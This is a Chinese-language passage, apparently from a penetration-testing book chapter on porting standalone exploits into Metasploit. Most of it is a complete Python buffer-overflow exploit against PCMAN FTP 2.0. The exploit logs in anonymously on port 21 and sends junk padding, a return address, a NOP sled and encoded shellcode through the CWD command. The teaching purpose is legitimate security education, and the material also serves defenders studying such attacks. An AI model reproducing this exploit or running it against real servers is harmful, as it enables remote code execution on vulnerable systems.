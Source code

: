 +   从现有独立扫描器/工具脚本创建 Metasploit 模块

如果我们能够找出现有利用中哪些基本要素可以在 Metasploit 中使用，那么将脚本移植到 Metasploit 框架中就是一项简单的工作。

将利用移植到 Metasploit 的这一想法通过使独立脚本能够在广泛的网络上运行而不仅仅是单个系统上，从而节省时间。此外，由于每个利用都可以从 Metasploit 中访问，这使得渗透测试更有组织性。让我们了解如何在即将到来的章节中使用 Metasploit 实现可移植性。

# 导入基于堆栈的缓冲区溢出利用

在即将到来的示例中，我们将看到如何将用 Python 编写的利用导入 Metasploit。公开可用的利用可以从以下网址下载：[`www.exploit-db.com/exploits/31255/`](https://www.exploit-db.com/exploits/31255/)。让我们按照以下方式分析利用：

```
import socket as s 
from sys import argv 

host = "127.0.0.1" 
fuser = "anonymous" 
fpass = "anonymous" 
junk = '\x41' * 2008 
espaddress = '\x72\x93\xab\x71' 
nops = 'x90' * 10 
shellcode= ("\xba\x1c\xb4\xa5\xac\xda\xda\xd9\x74\x24\xf4\x5b\x29\xc9\xb1"
"\x33\x31\x53\x12\x83\xeb\xfc\x03\x4f\xba\x47\x59\x93\x2a\x0e"
"\xa2\x6b\xab\x71\x2a\x8e\x9a\xa3\x48\xdb\x8f\x73\x1a\x89\x23"
"\xff\x4e\x39\xb7\x8d\x46\x4e\x70\x3b\xb1\x61\x81\x8d\x7d\x2d"
"\x41\x8f\x01\x2f\x96\x6f\x3b\xe0\xeb\x6e\x7c\x1c\x03\x22\xd5"
"\x6b\xb6\xd3\x52\x29\x0b\xd5\xb4\x26\x33\xad\xb1\xf8\xc0\x07"
"\xbb\x28\x78\x13\xf3\xd0\xf2\x7b\x24\xe1\xd7\x9f\x18\xa8\x5c"
"\x6b\xea\x2b\xb5\xa5\x13\x1a\xf9\x6a\x2a\x93\xf4\x73\x6a\x13"
"\xe7\x01\x80\x60\x9a\x11\x53\x1b\x40\x97\x46\xbb\x03\x0f\xa3"
"\x3a\xc7\xd6\x20\x30\xac\x9d\x6f\x54\x33\x71\x04\x60\xb8\x74"
"\xcb\xe1\xfa\x52\xcf\xaa\x59\xfa\x56\x16\x0f\x03\x88\xfe\xf0"
"\xa1\xc2\xec\xe5\xd0\x88\x7a\xfb\x51\xb7\xc3\xfb\x69\xb8\x63"
"\x94\x58\x33\xec\xe3\x64\x96\x49\x1b\x2f\xbb\xfb\xb4\xf6\x29"
"\xbe\xd8\x08\x84\xfc\xe4\x8a\x2d\x7c\x13\x92\x47\x79\x5f\x14"
"\xbb\xf3\xf0\xf1\xbb\xa0\xf1\xd3\xdf\x27\x62\xbf\x31\xc2\x02"
 "\x5a\x4e")

sploit = junk+espaddress+nops+shellcode
conn = s.socket(s.AF_INET,s.SOCK_STREAM)
conn.connect((host,21))
conn.send('USER '+fuser+'\r\n')
uf = conn.recv(1024)
conn.send('PASS '+fpass+'\r\n')
pf = conn.recv(1024)
conn.send('CWD '+sploit+'\r\n')
cf = conn.recv(1024)
conn.close()

```

这个简单的利用通过匿名凭据登录到端口`21`上的 PCMAN FTP 2.0 软件，并使用`CWD`命令利用软件。
